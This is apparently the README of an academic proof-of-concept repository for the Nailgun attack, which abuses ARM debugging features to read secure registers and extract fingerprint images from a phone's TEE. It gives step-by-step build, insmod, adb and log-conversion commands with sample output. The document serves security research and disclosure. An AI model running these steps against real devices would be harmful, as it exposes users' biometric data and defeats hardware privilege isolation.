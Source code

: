
# Nailgun: Break the privilege isolation in ARM devices

## Overview
Processors nowadays are consistently equipped with debugging features to facilitate the program debugging and analysis. Specifically, the ARM debugging architecture involves a series of CoreSight components and debug registers to aid the system debugging, but the security of the debugging features is under-examined since it normally requires physical access to use these features in the traditional debugging model.

The idea of Nailgun Attack is to misuse the debugging architecture with the inter-processor debugging model. In the inter-processor debugging model, a processor (debug host) is able to pause and debug another processor (debug target) on the same chip even when the debug target owns a higher privilege. With Nailgun, we are able to obtain sensitive information and achieve arbitrary payload execution in a high-privilege mode.

For more details, please check our website https://compass.cs.wayne.edu/nailgun

## Proof of Concept
We will make two PoCs available on Github:

### PoC #1: Reading  Secure Configuration Register with a kernel module.
#### Platform
- Deivce: Raspberry PI 3 Model B+ 
- Firmware: Raspbian GNU/Linux 9.6 (stretch)

#### Description
In this PoC, we we use a kernel module running in non-secure EL1 to read Secure Configuration Register (SCR), which is only accessiable in secure state, on Raspberry PI. The fold ```PoC/Read_SCR``` contains the source code and prebuild binaries for two kernel modules. The first kernel module _directly_read.ko_ read the SCR directly, which lead to segmentation fault. The kernel module _nailgun.ko_ leverages Nailgun attack to read the SCR

#### Prepare
If you are going to build the kernel module from the source code, you need to install the compile tools and kernel headers with the following command,
```
pi@raspberrypi:~/ $ sudo apt-get install build-essential raspberrypi-kernel-headers
```
Then, get into the source code fold, and compile the kernel module
```
pi@raspberrypi:~/ $ cd PoC/Read_SCR
pi@raspberrypi:~/PoC/Read_SCR $ make
```

#### Run
Use _insmod_ command to install the corresponding kernel module, and use _dmesg_ to check the kernel logs.
```
pi@raspberrypi:~/PoC/Read_SCR $ sudo insmod directly_read.ko
pi@raspberrypi:~/PoC/Read_SCR $ dmesg
pi@raspberrypi:~/PoC/Read_SCR $ sudo insmod nailgun.ko
pi@raspberrypi:~/PoC/Read_SCR $ dmesg
```
The value of the SCR can be found in the kernel log.

#### Demo Video
https://youtu.be/dlKK_69HJnk
  
### PoC #2:  Extracting the fingerprint image.
#### Platform
- Deivce: Huawei Mate 7 (MT-L09)
- Firmware: MT7-L09V100R001C00B121SP05

#### Description
In this PoC, we use a kernel module running in non-secure EL1 to extract the fingerprint image
stored in TEE on Huawei Mate 7. The fold ```PoC/Fingerprint_Extraction``` contains the source code for the kernel module that extracts fingerprint data from TEE, a prebuild binary of the kernel module, and a python script to convert the extracted image data to a PNG file.

#### Prepare
- Make sure you have scanned a fingerprint with the fingerprint sensor.
- Enable USB debugging on your phone and connect it to your PC. (**Nailgun attack doesn't require physical access to the phone, the connection is only used for transferring the binary to the phone and moving the output log to the PC.**)
- Make sure you have root access on your phone.

#### Run
Firstly, push the prebuild binary into the phone
```
adb push nailgun.ko /sdcard/
```
Next, in the _adb shell_ console of the phone, install the kernel module
```
adb shell
shell@hwmt7:/ $ su
root@hwmt7:/ # insmod /sdcard/nailgun.ko
```
Check the kernel log with _dmesg_ command
```
root@hwmt7:/ # dmesg
```
If you can find the fingerprint data similar to this
```
<6>[   51.284149] [0.1, swapper/1] --------------------Fingerprint Start
<6>[   51.284210] [0.1, swapper/1] 2ef5efac: 412f0100 87796552 e8e2dfd4 eff0eeea
<6>[   51.284240] [0.1, swapper/1] 2ef5efbc: f3f3f3f3 f3f1f8f6 f3f3f2f1 eff4f4f8
<6>[   51.284301] [0.1, swapper/1] 2ef5efcc: f1f0f2f0 f1f0eff3 f1f1efee efeff0ee
<6>[   51.284332] [0.1, swapper/1] 2ef5efdc: e7ecefeb e8e9e8ed e6e4e3e6 e1e5e5e6
<6>[   51.284393] [0.1, swapper/1] 2ef5efec: e9e5e6e4 dfe3e3e6 e4e5e5e2 e0e3e3e3
<6>[   51.284423] [0.1, swapper/1] 2ef5effc: dee1e3e2 e8e6e1df eae8e6e7 eaeceeeb
<6>[   51.284484] [0.1, swapper/1] 2ef5f00c: e5e3e5e5 edebe6e7 edefeff1 f1eeeff0
<6>[   51.284515] [0.1, swapper/1] 2ef5f01c: e7eaebea e9e9e8e5 e6e7eaeb e4e5e4e2
<6>[   51.284576] [0.1, swapper/1] 2ef5f02c: e7e9e8e8 e5e6e7e6 e7eae7ea e2e4e4e5
```
then the PoC works.
Next, dump the kernel log to file, and extract the file from the phone to your PC
```
root@hwmt7:/ # dmesg > /sdcard/nailgun.log
root@hwmt7:/ # exit
shell@hwmt7:/ $ exit
adb pull /sdcard/nailgun.log .
```
Finally, use the python script to convert the fingerprint data to a PNG file
```
python log2image.py nailgun.log
```
You will find the extracted fingerprint images are stored into PNG files naming _fingerprint\_x.png_, in which _x_ means the index of the image.

#### Demo Video
https://youtu.be/5ioyneewFYQ

## Publication
```
@InProceedings{nailgun19,
	Title = {Understanding the security of ARM debugging features},
	Author = {Zhenyu Ning and Fengwei Zhang},
	Booktitle = {Proceedings of the 40th IEEE Symposium on Security and Privacy (S&P'19)},
	Year = {2019}
}
```

## Contact
- Zhenyu Ning
- ningzy _at_ sustech.edu.cn
- Compass Lab, Wayne State University (http://compass.sustech.edu.cn/)
